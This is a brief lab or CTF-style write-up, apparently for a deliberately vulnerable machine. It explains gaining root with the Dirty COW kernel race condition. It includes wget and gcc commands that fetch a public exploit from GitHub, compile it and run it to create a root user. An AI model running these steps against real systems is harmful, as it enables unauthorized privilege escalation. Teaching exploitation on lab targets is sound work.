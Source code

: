 # Writeup 2 - Unclean Bovine (DirtyCOW)

> This writeup starts from [**Writeup 1**](../writeup1/README.md) once we get any shell capable of compiling some C code

The iso for this project is quite old, its vulnerable to the Dirty COW exploit, a privilege escalation vulnerability that exploits a race condition on the copy-on-write mechanism of older kernels (<4.8.3)

## Preparation

To use this exploit, we first need a shell. we follow the "intended solution" till we have access to a user that can compile and run a C file.  
Here we used user `laurie`.

We just use a [known dirty cow script](https://github.com/firefart/dirtycow) that sets a new user `firefart` as root.

## Running the Exploit

to use this exploit this vulnerability we must compile the copied code as indicated in the exploit's repo:
```
$> wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
--2025-04-10 21:22:19--  https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: ‘dirty.c’

dirty.c               100%[=========================>]   4.70K  --.-KB/s    in 0.001s

2025-04-10 21:22:19 (6.90 MB/s) - ‘dirty.c’ saved [4815/4815]
$> gcc -pthread dirty.c -o dirty -lcrypt
```

*Note: we can't always use `wget` as depending on the network config the machine might not have an internet, if so, we can just paste from the host machine when we use ssh to connect to the machine

we can then run the executable and wait... And after some time, the user firefart is created and we can connect as it, obtaining a root shell - **Congrats us, ~~that was pure talent!!!!~~**
